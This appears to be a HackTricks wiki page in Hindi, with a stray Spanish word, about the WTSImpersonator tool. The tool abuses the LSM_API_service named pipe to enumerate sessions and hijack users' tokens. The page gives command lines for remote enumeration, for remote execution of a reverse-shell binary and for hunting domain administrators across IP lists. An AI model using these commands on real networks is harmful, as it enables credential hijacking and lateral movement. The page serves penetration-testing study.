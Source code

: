 {{#include ../../banners/hacktricks-training.md}}

**WTS Impersonator** उपकरण **"\\pipe\LSM_API_service"** RPC Named pipe का उपयोग करके चुपचाप लॉग इन उपयोगकर्ताओं की सूची बनाता है और उनके टोकन को हाईजैक करता है, पारंपरिक Token Impersonation तकनीकों को बायपास करता है। यह दृष्टिकोण नेटवर्क के भीतर निर्बाध पार्श्व आंदोलनों को सुविधाजनक बनाता है। इस तकनीक के पीछे की नवाचार **Omri Baso** को श्रेय दिया जाता है, cuyo काम [GitHub](https://github.com/OmriBaso/WTSImpersonator) पर उपलब्ध है।

### Core Functionality

उपकरण API कॉल की एक श्रृंखला के माध्यम से कार्य करता है:
```bash
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Key Modules and Usage

- **Enumerating Users**: स्थानीय और दूरस्थ उपयोगकर्ता सूचीकरण इस उपकरण के साथ संभव है, किसी भी परिदृश्य के लिए आदेशों का उपयोग करते हुए:

- Locally:
```bash
.\WTSImpersonator.exe -m enum
```
- Remotely, by specifying an IP address or hostname:
```bash
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Executing Commands**: `exec` और `exec-remote` मॉड्यूल को कार्य करने के लिए एक **Service** संदर्भ की आवश्यकता होती है। स्थानीय निष्पादन के लिए केवल WTSImpersonator निष्पादन योग्य और एक आदेश की आवश्यकता होती है:

- Example for local command execution:
```bash
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe का उपयोग सेवा संदर्भ प्राप्त करने के लिए किया जा सकता है:
```bash
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Remote Command Execution**: इसमें PsExec.exe के समान दूरस्थ रूप से एक सेवा बनाना और स्थापित करना शामिल है, जो उचित अनुमतियों के साथ निष्पादन की अनुमति देता है।

- Example of remote execution:
```bash
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **User Hunting Module**: कई मशीनों में विशिष्ट उपयोगकर्ताओं को लक्षित करता है, उनके क्रेडेंशियल के तहत कोड निष्पादित करता है। यह विशेष रूप से कई सिस्टम पर स्थानीय प्रशासनिक अधिकारों के साथ डोमेन प्रशासकों को लक्षित करने के लिए उपयोगी है।
- Usage example:
```bash
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}
